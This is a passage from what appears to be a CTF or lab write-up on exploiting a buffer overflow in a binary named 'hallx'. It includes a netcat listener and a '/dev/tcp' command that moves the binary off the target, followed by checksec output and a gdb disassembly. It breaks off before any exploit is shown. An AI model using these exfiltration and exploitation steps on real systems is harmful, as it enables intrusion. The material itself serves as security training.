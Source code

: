 From my machine I run:

```bash
nc -lnvp 9000 > hallx
```

then I send the program

```bash
cat hallx > /dev/tcp/172.17.0.1/9000
```

![image](https://github.com/user-attachments/assets/1bacb28e-807f-4b16-97bf-0d95110b159e)

Now I begin to analyze it to see how I can exploit it.

![image](https://github.com/user-attachments/assets/a425eba2-170c-434e-8d22-fc4ca28ac0b2)

![image](https://github.com/user-attachments/assets/19ce5347-9005-4f54-9778-63a47c6f5ab4)


So, in main() you can see the functions to detect debugging and also virtualization, you can also see the factor1 function that invokes the shell

Now I check the protections present in the program

```bash
checksec --file=hallx
```

![image](https://github.com/user-attachments/assets/a798b483-b50b-4dc7-8d27-adeaabcee8a2)

The program has all protections active, so it would be necessary to extract the memory addresses at runtime to be able to exploit the Bof, apart from the need to bypass the canary protection. Now we will debug the program with privileges and analyze how to extract the necessary information and locate the memory address where the canary is located.


```bash
sudo gdb -q ./hallx
```
```bash
Reading symbols from ./hallx...
(No debugging symbols found in ./hallx)
(gdb) break main
Breakpoint 1 at 0x3762
(gdb) r
Starting program: /home/darks/Desktop/program/hallx 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x0000555555557762 in main ()
(gdb) set pagination off
(gdb) disassemble factor2
Dump of assembler code for function factor2:
   0x0000555555557605 <+0>:	push   %rbp
   0x0000555555557606 <+1>:	mov    %rsp,%rbp
   0x0000555555557609 <+4>:	sub    $0x60,%rsp
   0x000055555555760d <+8>:	mov    %fs:0x28,%rax
   0x0000555555557616 <+17>:	mov    %rax,-0x8(%rbp)
   0x000055555555761a <+21>:	xor    %eax,%eax
   0x000055555555761c <+23>:	lea    0xff1(%rip),%rax        # 0x555555558614
   0x0000555555557623 <+30>:	mov    %rax,%rdi
   0x0000555555557626 <+33>:	mov    $0x0,%eax
   0x000055555555762b <+38>:	call   0x555555556030 <printf@plt>
   0x0000555555557630 <+43>:	mov    0x2b49(%rip),%rdx        # 0x55555555a180 <stdin@GLIBC_2.2.5>
   0x0000555555557637 <+50>:	lea    -0x50(%rbp),%rax
   0x000055555555763b <+54>:	mov    $0x80,%esi
   0x0000555555557640 <+59>:	mov    %rax,%rdi
```